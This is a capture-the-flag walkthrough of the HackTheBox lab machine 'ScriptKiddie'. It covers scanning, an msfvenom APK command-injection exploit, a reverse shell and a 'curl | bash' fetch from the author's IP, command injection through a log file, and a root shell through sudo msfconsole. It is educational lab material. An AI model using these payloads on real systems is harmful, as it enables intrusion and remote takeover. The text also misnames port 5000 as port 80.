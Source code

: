```yaml
---
title: "HackTheBox - ScriptKiddie"
author: Nasrallah
description: ""
date: 2023-01-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, commandinjection, sudo, msfvenom]
img_path: /assets/img/hackthebox/machines/scriptkiddie
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing **ScriptKiddie** from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.226
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

there are two open ports, port 22 running OpenSSh and port 80 running Werkzeug http webserver with python 3.8.5

### Web

Let's check the web page.

![](1.png)

Here we see this hacker has setup this web page to run nmap scans, generate payloads with msfvenom and search for exploits with searchsploit.

The forms in this page are not injectable, everything is sanitized.

Looking out for Msfvenom with `searchsploit` we find that it has a command injection vulnerability.

```terminal
$ searchsploit msfvenom
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection                                                       | multiple/local/49491.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

## **Foothold**

Let's copy the exploit to our directory using `searchsploit -m multiple/local/49491.py`.

Inside the the exploit there is a variable called `payload`, which is the command that's going to get executed at the target machine, that we need to change.

I'll first create a shell script that contains a reverse shell, then we host the file on an http server.

```terminal
$ cat shell.sh
bash -i >& /dev/tcp/10.10.17.90/1234 0>&1
```

Then we set the payload value to `'curl 10.10.17.90/shell.sh | bash'` which is going to call for our reverse shell script and pip it to bash.

Now let's generate the malicious apk file.

![](2.png)

Let's go back too the web page and upload the evil.apk file

![](3.png)

Now setup a listener and click generate.

![](4.png)

## **Privilege Escalation**

On pwn's home directory, we find the following shell script.

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

This script reads the `/home/kid/logs/hackers` file, use `cut` to set the delimiter to `space`, skips the first two fields and reads whatever after that as ip and pass it to a nmap scan.

We can easily inject that by putting our command after the second field.

First we put a semicolon to break out from the nmap scan, then we put the same command we used earlier to get a shell.

```bash
echo 'a a ;curl 10.10.17.90/shell.sh | bash' >> hackers
```

We setup a listener and run the command above.

![](5.png)

We got a shell as pwn, now let's run `sudo -l`

```terminal
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

We can run msfconsole as root.

![](6.png)

Checking that entry on GTFOBins, we see that we can run the following command to get root.

```terminal
sudo msfconsole
msf6 > irb
>> system("/bin/sh")
```

![](7.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
